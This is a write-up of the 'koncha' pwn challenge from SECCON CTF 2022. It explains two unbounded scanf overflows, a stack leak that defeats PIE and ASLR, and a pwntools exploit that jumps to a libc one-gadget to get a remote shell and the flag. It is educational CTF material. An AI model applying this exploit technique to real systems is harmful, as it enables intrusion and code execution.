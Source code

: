 ```yaml
---
title: 'koncha - SECCON CTF 2022'
permalink: /writeups/seccon2022/koncha
---
```


## koncha

koncha was a easy pwn challenge from SECCON 2022 quals

## Analysis

### checksec

```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

### file command output

```bash
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ld-2.31.so, BuildID[sha1]=444af262ad4af23ccec1cb9e3c7314c3b225a9ed, for GNU/Linux 3.2.0, not stripped
```

### Code

In this challenge the source code was provided, so reverse will be done quickly.

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char name[0x30], country[0x20];

  /* Ask name (accept whitespace) */
  puts("Hello! What is your name?");
  scanf("%[^\n]s", name);
  printf("Nice to meet you, %s!\n", name);

  /* Ask country */
  puts("Which country do you live in?");
  scanf("%s", country);
  printf("Wow, %s is such a nice country!\n", country);

  /* Painful goodbye */
  puts("It was nice meeting you. Goodbye!");
  return 0;
}

__attribute__((constructor))
void setup(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  alarm(180);
}
```

It is easy to see that this is a program that asks the user for its name and contry, prints some welcome and goodbye messages and returns. The vulnerability is also obvious. Both scanfs expose a buffer overflow vulnerability since:
  
- The first scanf will read until a new line ('\n') is found, without any caracter number limits
- The second scanf will read until a white caracter is found (space, new line or null byte), without any caracter limits.

This simply shows that this is a simple return to one gadget challenge.  
However, this binary has PIE turned on and we must assume ASLR is enabled on the host machine, thus we need leaks to bypass this mitigations in order to performed the usuall exploit.  

## Exploit

### PIE and ASLR leak

The only way to have a leak, would be to force the printfs to leak stack values. Since scanf always writes a null byte the end of a string, there won't be any non null terminated strings for printf to leak values. For this reason, one of the scanfs needs to fail, so that nothing is written on the buffers and printf prints the buffers as they were initialized. From scanf's man page:

```text
The set excludes those characters if the first character after the open bracket is a
circumflex ^
```

Therefore, passing a single '\n' will prevent scanf from writing on the buffer, and, consequently the printf will leak a stack value (note that the buffers were allocated in the stack, meaning that they will leak a stack value). This beats PIE and ASLR, as we can compute our targeted destinations as offsets of this leak. Bellow is the code for obtaining the leak and parsing it.

```python
io.sendline()
io.recvline()
line = io.recvline(keepends=True)[:-2].split(b' ')
leak = u64(line[-1].ljust(8,b'\x00'))
log.info(f"Leaked {hex(leak)}")
log.info(f"One gadget is at offset {hex(leak - OFFSET)}")
```

### Shell

Since PIE and ASLR was beaten, all that is left to do is overflow the country buffer (using the second scanf), overwrite main's return address and jump to one gadget. However, first we need to choose a one gadget to jump to

```text
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

I chose the second one gadget, because at the time main returns all its constrains were already met. I calculated that the one gadget is always at an offset of -0x10d7e7 from the leak that we obtained. Note that the other one gadgets might be possible to use, however they might require aditional gadgets to ensure the constrains are met.  
As you can see bellow I got a shell and the flag.

```python
def overflow():
        p = '1'*(0x60-8)
        return p.encode()
io.sendline(overflow() + p64(leak - OFFSET))
io.interactive()
```

This is just the overflow and RCE part of the exploit.

```bash
[+] Opening connection to koncha.seccon.games on port 9001: Done
[*] Leaked 0x7fc6acd3b2e8
[*] One gadget is at 0x7fc6acc2db01
[*] Switching to interactive mode
$ cat flag-50d05c4f3e767dfc58f5cde347c36370.txt
SECCON{I_should_have_checked_the_return_value_of_scanf}
```
